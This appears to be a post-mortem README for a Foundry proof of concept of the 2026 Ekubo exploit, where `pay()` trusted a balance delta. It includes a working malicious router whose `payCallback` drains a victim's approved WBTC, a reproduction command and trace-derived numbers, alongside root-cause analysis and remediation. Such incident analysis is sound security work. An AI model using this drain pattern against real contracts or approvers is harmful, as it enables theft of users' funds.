


# Ekubo Protocol Exploit — Flash-Accounting `pay()` Funded From a Victim's Standing Approval

> **Vulnerability classes:** vuln/dependency/unsafe-external-call · vuln/logic/missing-check

> One-liner: Ekubo's singleton `Core` settles a locker's debt by measuring only *its own* token-balance delta during `payCallback`, so a malicious router could `withdraw` WBTC to the attacker and then `pay` for it by `transferFrom`-ing the very same amount out of an unrelated user who still had an approval to the router — draining 17 WBTC (~$1.4M) for zero net cost.

> **Reproduction:** the PoC compiles & runs in this isolated Foundry project at
> [this project folder](.). Full verbose trace: [output.txt](output.txt).
> Verified vulnerable accounting logic: [src_base_FlashAccountant.sol](sources/Core_e0e0e0/src_base_FlashAccountant.sol).
> The Ekubo *Router* (the actual locker that orchestrated the abuse) is **unverified** on Etherscan, so the PoC reimplements it as a readable contract and `vm.etch`es it over the router address.

---

## Key info

| | |
|---|---|
| **Loss** | ~$1.4M — **17.0 WBTC** (`1,700,000,000` at 8 decimals) drained from a single approving user |
| **Vulnerable contract** | Ekubo `Core` (singleton / `FlashAccountant`) — [`0xe0e0e08A6A4b9Dc7bD67BCB7aadE5cF48157d444`](https://etherscan.io/address/0xe0e0e08A6A4b9Dc7bD67BCB7aadE5cF48157d444#code) |
| **Abused entry point** | Ekubo `Router` — [`0x8CCB1ffD5C2aa6Bd926473425Dea4c8c15DE60fd`](https://etherscan.io/address/0x8CCB1ffD5C2aa6Bd926473425Dea4c8c15DE60fd) (unverified) |
| **Victim** | WBTC holder with a standing approval to the router — `0x765DECF4Fa157756e850C1079F60801b9219Edd1` |
| **Stolen token** | WBTC — `0x2260FAC5E5542a773Aa44fBCfeDf7C193bc2C599` |
| **Attacker EOA** | `0xA911Ff351B143634Dbc5aF3E204EA074583A83e3` |
| **Attacker contract** | `0x61b0dAD9628D3e644eB560a5c9B0F960430E3A75` (original on-chain executor) |
| **Attack tx** | [`0x770bc9a1f7c32cb63a5002b9ceb5c7994cd3af0fc6b2309cb32d3c46f629daa0`](https://etherscan.io/tx/0x770bc9a1f7c32cb63a5002b9ceb5c7994cd3af0fc6b2309cb32d3c46f629daa0) |
| **Chain / date** | Ethereum mainnet / 2026-05 (forked at the attack tx) |
| **Compiler** | Core: Solidity `v0.8.28`, optimizer `1`, runs `9999999` |
| **Bug class** | Flash-accounting settlement that trusts a *balance delta* instead of the *source of funds*; combined with an arbitrary-recipient `withdraw` |

---

## TL;DR

Ekubo is a singleton-style concentrated-liquidity DEX (the "all the tokens live in one `Core` contract" design, like Uniswap V4). All interactions happen inside a **flash-accounting lock**: you call `Core.lock()`, the Core calls you back at `locked(...)`, and inside that window you may `withdraw(token, recipient, amount)` (which *adds* debt) and `pay(token)` (which *erases* debt). At the end of the lock the Core asserts every token debt nets to zero.

The fatal detail is in how `pay()` decides how much credit you earned:

```solidity
// FlashAccountant.pay(token):
let tokenBalanceBefore := Core.balanceOf(token)   // snapshot of CORE's own balance
... call payer.payCallback(id, token) ...          // payer "makes the payment"
let tokenBalanceAfter  := Core.balanceOf(token)    // snapshot again
payment := tokenBalanceAfter - tokenBalanceBefore  // credit = how much CORE's balance grew
_accountDebt(id, token, -payment);                 // erase that much debt
```

`pay()` credits the locker for **any** increase in the Core's own balance — it never checks *who* paid. So inside `payCallback` the locker can satisfy the payment with `WBTC.transferFrom(victim, Core, amount)`, draining a third party who happens to have an active WBTC allowance to the router. The locker then keeps the `amount` of WBTC it had already `withdraw`n to its own address. Debt nets to zero, the lock passes, and the victim is short the funds.

The attack contract simply loops this 85 times, each iteration pulling `0.2 WBTC` from the victim and forwarding it to the attacker EOA, for a total theft of **17.0 WBTC**.

---

## Background — what Ekubo / `FlashAccountant` does

Ekubo Protocol ([`Core`](sources/Core_e0e0e0/src_Core.sol)) is described in-source as *"Singleton holding all the tokens and containing all the possible operations in Ekubo Protocol"* ([src_Core.sol:42](sources/Core_e0e0e0/src_Core.sol)). Token custody and net-settlement are handled by the base contract [`FlashAccountant`](sources/Core_e0e0e0/src_base_FlashAccountant.sol). The lifecycle of any operation is:

1. **`lock()`** ([FlashAccountant.sol:67](sources/Core_e0e0e0/src_base_FlashAccountant.sol#L67)) — records the caller as the current "locker" in transient storage and calls back `locked(id)` on that caller. When the callback returns it asserts `nonzeroDebtCount == 0`, i.e. every token's running debt for this lock netted to zero, else it reverts with `DebtsNotZeroed`.
2. **`withdraw(token, recipient, amount)`** ([:222](sources/Core_e0e0e0/src_base_FlashAccountant.sol#L222)) — the locker pulls tokens *out* of the Core to an arbitrary `recipient`, recording `+amount` of debt for `token`.
3. **`pay(token)`** ([:145](sources/Core_e0e0e0/src_base_FlashAccountant.sol#L145)) — the locker settles debt: the Core snapshots its own `balanceOf`, calls `payCallback` on the locker, snapshots again, and credits the locker `-payment` debt equal to the **increase in the Core's balance**.
4. **`forward(to)`** ([:111](sources/Core_e0e0e0/src_base_FlashAccountant.sol#L111)) — optionally hands the lock context to another contract.

The intended honest flow is: a router locks, `withdraw`s the output token to the trader, and inside `payCallback` transfers the input token *from the trader (who approved the router)* into the Core. That is exactly the mechanism that gets weaponized here — the "payer" inside `payCallback` is free to source the funds from any address that has approved it.

State at the fork block (from the trace):

| Fact | Value |
|---|---|
| Victim's WBTC balance (slot `0xaca4…f67`) | `0x656a98bf` = **17.01484735 WBTC** |
| Victim's WBTC allowance to the spender (slot `0x5fa831…ebd6`) | `0xff…ff` = **unlimited (`type(uint256).max`)** |
| Core's WBTC balance (slot `0x8326…635`) | `0x1ed9cd4` = **0.32349396 WBTC** |
| Attacker EOA WBTC balance | **0** |

The "victim has an unlimited WBTC approval that the router can spend" is the whole game.

---

## The vulnerable code

### 1. `pay()` credits a *balance delta*, not a verified payer

[src_base_FlashAccountant.sol:145-220](sources/Core_e0e0e0/src_base_FlashAccountant.sol#L145-L220):

```solidity
function pay(address token) external returns (uint128 payment) {
    ... // PAY_REENTRANCY_LOCK
    (uint256 id,) = _getLocker();
    assembly ("memory-safe") {
        ...
        let tokenBalanceBefore := /* token.balanceOf(address(this)) */ ...

        // Prepare call to "payCallback(uint256,address)"
        mstore(free, shl(224, 0x599d0714));
        mstore(add(free, 4), id);
        mstore(add(free, 36), token);
        ...
        if iszero(call(gas(), caller(), 0, free, add(32, calldatasize()), 0, 0)) { ... revert ... }

        let tokenBalanceAfter := /* token.balanceOf(address(this)) */ ...

        if lt(tokenBalanceAfter, tokenBalanceBefore) { /* NoPaymentMade */ ... }
        payment := sub(tokenBalanceAfter, tokenBalanceBefore)   // ⚠️ ANY increase counts as "payment"
        ...
    }
    unchecked {
        _accountDebt(id, token, -int256(uint256(payment)));     // erase that much of the locker's debt
    }
    ...
}
```

The credited `payment` is purely `balanceAfter − balanceBefore` of the **Core itself**. There is no record of which account funded that delta and no link to the locker. If the `payCallback` brings in tokens from someone *other than the locker*, the locker still receives full credit.

### 2. `withdraw()` sends to an arbitrary recipient

[src_base_FlashAccountant.sol:222-232](sources/Core_e0e0e0/src_base_FlashAccountant.sol#L222-L232):

```solidity
function withdraw(address token, address recipient, uint128 amount) external {
    (uint256 id,) = _requireLocker();
    _accountDebt(id, token, int256(uint256(amount)));          // +amount debt for the locker
    ...
    SafeTransferLib.safeTransfer(token, recipient, amount);    // recipient is attacker-chosen
}
```

The withdrawn token is sent to any `recipient` the locker names. So the locker can withdraw to itself / the attacker, while `pay()` is funded by a third party. The two operations are bound only by the requirement that *net debt is zero* — which the attacker satisfies trivially because both numbers are equal (`20,000,000`).

### 3. The malicious locker (the Router): pay = `transferFrom(victim, …)`

The real Ekubo Router at `0x8CCB…` is unverified; the PoC reimplements its exploit-relevant behaviour and `vm.etch`es it onto the router address ([test/Ekubo_exp.sol:44-45](test/Ekubo_exp.sol#L44-L45)). The reimplementation makes the attack mechanics explicit:

```solidity
// EkuboTraceExploitRouter (test/Ekubo_exp.sol)
function locked(uint256) external returns (uint128 amount, uint128 end) {
    require(msg.sender == address(CORE), "not core");
    try CORE.forward(address(WBTC)) {} catch {}            // best-effort, reverts harmlessly
    CORE.withdraw(address(WBTC), PROFIT_RECEIVER, WBTC_PER_LOCK);  // 0.2 WBTC → attacker
    CORE.pay(address(WBTC));                                // settle by pulling from the victim
    return (WBTC_PER_LOCK, 0);
}

function payCallback(uint256, address token) external {
    require(msg.sender == address(CORE), "not core");
    require(token == address(WBTC), "not WBTC");
    // ⚠️ payment is funded from the VICTIM, not from the locker
    require(WBTC.transferFrom(VICTIM, address(CORE), WBTC_PER_LOCK), "pay failed");
}
```

`WBTC_PER_LOCK = 20_000_000` (0.2 WBTC) and the drain loops `REPEAT_COUNT = 85` times ([test/Ekubo_exp.sol:70-71](test/Ekubo_exp.sol#L70-L71)): `85 × 0.2 = 17.0 WBTC`.

---

## Root cause — why it was possible

A flash-accounting singleton must answer one question on settlement: *"did the locker make me whole for what it took?"* Ekubo's `Core` answers it by watching its own balance grow during `payCallback` and assuming any growth was the locker paying its own debt. That assumption is false:

> The Core verifies that **its balance increased**, not that the **locker decreased its own balance**. A `transferFrom(victim, Core, amount)` inside `payCallback` increases the Core's balance just as well as a self-funded `transfer(Core, amount)` — but the cost lands on `victim`, not on the locker.

Combined with `withdraw()` allowing an arbitrary `recipient`, the net effect within a single lock is:

- `withdraw(WBTC, attacker, X)` → Core balance −X, attacker +X, locker debt +X
- `pay(WBTC)` via `transferFrom(victim, Core, X)` → Core balance +X (net 0), victim −X, locker debt −X (net 0)

Debt nets to zero so `lock()` succeeds — yet value moved straight from `victim` to `attacker` with the locker contributing nothing. The locker only needs a way to spend the victim's tokens, which it has: the victim had granted the router an **unlimited WBTC approval** (slot `0x5fa831…ebd6 = 0xff…ff`). Any user who had ever approved the Ekubo router for a token was drainable for their full balance.

The contributing design decisions:

1. **Source-blind payment accounting.** `pay()` credits a balance delta with no binding to the locker's own funds. (`FlashAccountant.pay` — [:202](sources/Core_e0e0e0/src_base_FlashAccountant.sol#L202))
2. **Arbitrary-recipient withdrawal.** `withdraw()` lets the locker direct the output anywhere. (`FlashAccountant.withdraw` — [:222](sources/Core_e0e0e0/src_base_FlashAccountant.sol#L222))
3. **Standing unlimited approvals to the router.** Routers customarily hold infinite `transferFrom` approval from their users; once the router (or a contract that can act as a payer) is induced to call `transferFrom(user, Core, …)`, the user's whole balance is reachable.

> Note: the `forward(WBTC)` call in `locked` is a no-op here — it best-effort calls `forwarded(...)` on the WBTC token, which reverts with *"unrecognized function selector 0x64919dea"* ([output.txt:39-41](output.txt)) and is swallowed by the `try/catch`. The drain works entirely through `withdraw` + `pay`.

---

## Preconditions

- A victim holds the token (WBTC) **and** has an active, large/unlimited approval that the attacker's locker can spend via `transferFrom` into the Core. In this incident the victim's WBTC allowance was `type(uint256).max`.
- The attacker controls a contract that the Core treats as the locker (here the router itself, whose code path lets a `payCallback` source funds from the victim). No price manipulation, oracle, or flash loan is required — the attacker spends **nothing** of its own.
- The Core's per-lock invariant only checks `net debt == 0`, which the attacker satisfies because the withdrawn amount equals the (victim-funded) paid amount.

---

## Step-by-step attack walkthrough (ground-truth numbers from the trace)

Each `lock()` iteration performs the same four actions. Numbers below are read directly from the storage diffs in [output.txt](output.txt) (slots: Core WBTC balance `0x8326…635`; locker debt `0xa75e…876`; victim WBTC balance `0xaca4…f67`; victim→spender allowance `0x5fa831…ebd6`).

| # | Action (per lock) | Core WBTC bal | Locker debt (WBTC) | Victim WBTC bal | Effect |
|---|---|---:|---:|---:|---|
| 0 | **Initial** (fork state) | 0.32349396 | 0 | 17.01484735 | Victim holds 17 WBTC, infinite approval live. |
| 1 | `forward(WBTC)` | 0.32349396 | 0 | 17.01484735 | No-op — `forwarded()` reverts on WBTC, swallowed. |
| 2 | `withdraw(WBTC, attacker, 0.2)` | 0.12349396 | **+0.2** | 17.01484735 | 0.2 WBTC sent to attacker; debt recorded. |
| 3 | `pay(WBTC)` → `transferFrom(victim, Core, 0.2)` | 0.32349396 | **0** | 16.81484735 | Core made whole **from the victim**; debt erased. |
| 4 | `lock()` returns | 0.32349396 | 0 | 16.81484735 | `net debt == 0` ⇒ lock passes. Net: victim −0.2, attacker +0.2. |

This repeats **85 times**. The victim's balance walks down `17.01484735 → 16.81 → 16.61 → … → 0.01484735 WBTC`, i.e. exactly `85 × 0.2 = 17.0 WBTC` removed; the unlimited allowance ticks down by `0.2 WBTC` per iteration ([output.txt:57](output.txt) shows `0xff…ff → 0xff…feced2ff`). The attacker EOA's WBTC balance grows `0 → 1,700,000,000` (17.0 WBTC), as asserted by `assertEq(stolenWbtc, 1_700_000_000)` ([test/Ekubo_exp.sol:51](test/Ekubo_exp.sol#L51)).

Why 85 × 0.2 rather than one 17-WBTC pull: the on-chain executor sized each `withdraw`/`pay` round to a fixed `0.2 WBTC` and looped; the PoC faithfully reproduces that cadence. The per-iteration size is irrelevant to the bug — a single `withdraw(victimBalance)` + `pay()` would drain the same victim in one shot.

### Profit / loss accounting (WBTC, 8 decimals)

| Party | Before | After | Delta |
|---|---:|---:|---:|
| Attacker EOA | 0.00000000 | 17.00000000 | **+17.00000000** |
| Victim (`0x765D…Edd1`) | 17.01484735 | 0.01484735 | **−17.00000000** |
| Ekubo `Core` (WBTC custody) | 0.32349396 | 0.32349396 | 0 (each `withdraw` immediately re-funded by `pay`) |
| **Attacker net cost** | | | **0** (no own capital, no flash loan) |

Loss ≈ 17 WBTC ≈ **$1.4M** at the prevailing price. The attacker spent zero of its own tokens — the entire profit is the victim's stolen WBTC.

---

## Diagrams

### Sequence of one drain iteration

```mermaid
sequenceDiagram
    autonumber
    actor A as "Attacker EOA"
    participant R as "Malicious Locker (Router)"
    participant C as "Ekubo Core (FlashAccountant)"
    participant W as "WBTC"
    participant V as "Victim (has unlimited approval)"

    Note over V: Holds 17.01 WBTC<br/>allowance to spender = type(uint256).max

    A->>R: drain()  (loops 85x)
    R->>C: lock()
    C->>R: locked(id)

    rect rgb(255,243,224)
    Note over R,C: forward is a harmless no-op
    R->>C: forward(WBTC)
    C->>W: forwarded(id, R)
    W-->>C: revert "unknown selector" (swallowed by try/catch)
    end

    rect rgb(255,235,238)
    Note over R,V: withdraw to attacker, then pay from the victim
    R->>C: withdraw(WBTC, attacker, 0.2)
    C->>W: transfer(attacker, 0.2)
    Note over C: locker debt += 0.2 ; Core bal -= 0.2
    R->>C: pay(WBTC)
    C->>W: balanceOf(Core)  (before)
    C->>R: payCallback(id, WBTC)
    R->>W: transferFrom(victim, Core, 0.2)
    W-->>V: -0.2 WBTC ; allowance -= 0.2
    C->>W: balanceOf(Core)  (after)
    Note over C: payment = after-before = 0.2<br/>locker debt -= 0.2  (now 0)
    end

    C-->>C: lock end: net debt == 0  PASS
    C-->>R: return
    Note over A: After 85 iterations: attacker +17 WBTC, victim -17 WBTC
```

### Debt / balance evolution across a lock



### Where the trust is broken inside `pay()`



---

## Remediation

1. **Bind payment to the locker's own funds.** The Core should only credit value the locker itself supplied. Options: require the locker to pre-fund the Core and have `pay()` debit the locker's tracked balance, or have the Core perform the `transferFrom` itself with `from == locker` (never an arbitrary third party). A balance-delta heuristic must not be the sole settlement check.
2. **Never let a router's `transferFrom` spend a user's approval toward an attacker-chosen destination.** Routers must scope every `transferFrom(user, …)` to an operation that is provably for *that same user's* benefit within the lock, and must validate that the withdrawal `recipient` matches the payer. The exploit hinges on `withdraw → recipient = attacker` while `pay → from = victim`.
3. **Tie `withdraw` recipients to the settlement payer.** If `withdraw(token, recipient, amount)` and the funds backing `pay(token)` originate from different accounts, the operation should revert. The two legs of a swap must reconcile to a single counterparty per lock.
4. **Minimize standing approvals.** Front-running router upgrades / using Permit2-style scoped, expiring approvals limits the blast radius: an unlimited, perpetual approval to a router turns any router/accounting flaw into total-balance loss for every approver.
5. **Treat "balance went up" as necessary but not sufficient.** Any accounting that infers a payer from a balance delta is vulnerable to donation/`transferFrom`-from-third-party tricks; settlement must reference an identity, not just a number.

---

## How to reproduce

```bash
_shared/run_poc.sh 2026-05-Ekubo_exp -vvvvv
```

- RPC: an **Ethereum mainnet archive** endpoint is required (the PoC forks at the attack *transaction hash*, so the node must serve historical state and `eth_getTransactionByHash`). The bundled `foundry.toml` uses `https://eth.drpc.org` (the default Infura key in the template returns HTTP 401). Forking + replaying 85 locks takes ~1–4 minutes.
- The PoC `vm.etch`es a readable reimplementation of the unverified Ekubo Router over `0x8CCB…` so the `withdraw`/`pay` mechanics are visible in the trace; the Core at `0xe0e0e0…` is the real, verified on-chain contract.
- Result: `[PASS] testExploit()` with `Stolen WBTC 1700000000` (= 17.0 WBTC).

Expected tail:

```
Ran 1 test for test/Ekubo_exp.sol:EkuboTest
[PASS] testExploit() (gas: 2518754)
  Stolen WBTC 1700000000
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 240.99s
```

---

*References: PoC header — Ekubo post-mortem (https://x.com/EkuboProtocol) and Blockaid analysis (https://x.com/blockaid_). Vulnerable accounting verified on-chain at [Core `0xe0e0e0…`](https://etherscan.io/address/0xe0e0e08A6A4b9Dc7bD67BCB7aadE5cF48157d444#code).*
